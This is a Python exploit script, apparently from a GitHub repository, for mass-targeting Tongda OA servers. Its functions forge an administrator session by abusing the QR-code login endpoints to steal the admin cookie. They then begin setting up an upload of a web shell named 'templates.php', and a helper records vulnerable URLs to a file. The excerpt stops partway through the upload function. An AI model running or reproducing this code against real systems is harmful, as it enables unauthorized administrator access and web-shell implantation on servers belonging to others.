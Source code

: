 
    def wirte_targets(vurl, filename):
        with open(filename, "a+") as f:
            f.write(vurl + "\n")
            return vurl


    def get_cookie(url):
        checkHeader = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded",
            "Referer": "https://google.com",
        }
        try:
            req1 = requests.get(url + "/ispirit/login_code.php", headers=checkHeader, verify=False, timeout=25)
            if req1.status_code == 200 and "codeuid" in req1.text: 
                codeUid = json.loads(req1.text)["codeuid"]
            else:
                req1 = requests.get(url + "/general/login_code.php", headers=checkHeader, verify=False, timeout=25)
                status = req1.text.find('{"status":1')
                if req1.status_code == 200 and status != -1:
                    codeUid = json.loads(req1.text[status:])["code_uid"]
                else:
                    return "123"
            req2 = requests.post(url+ "/general/login_code_scan.php", data={"codeuid": codeUid, "uid": int(1), "source": "pc", "type": "confirm", "username": "admin"}, headers=checkHeader, verify=False, timeout=25)
            if req2.status_code == 200 and json.loads(req2.text)["status"] == "1":
                req3 = requests.get(url + "/ispirit/login_code_check.php?codeuid=" + codeUid, headers=checkHeader, verify=False, timeout=25)
                if req3.status_code == 200 and '"uid":"1"' in req3.text:
                    cookie = req3.headers["Set-Cookie"]
                    return cookie
        except:
            pass
        return "123"
        

    def exp(u):
        uploadHeader = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
            "Content-Type": "multipart/form-data; boundary=----fuck123",
            "Referer": "https://google.com",
        }
        shellName = "templates.php"
        tongdaDir = "/"
        uploadFlag = "upload jpg shell"
        shellFlag = "sucess !!"
        webPath = tongdaDir + shellName
        printFlag = ""

        cookie = get_cookie(u)
        if cookie != "123":
            printFlag = "[Login]：" + u + "/general/index.php\t" + cookie + "\n"
        header["Cookie"] = cookie
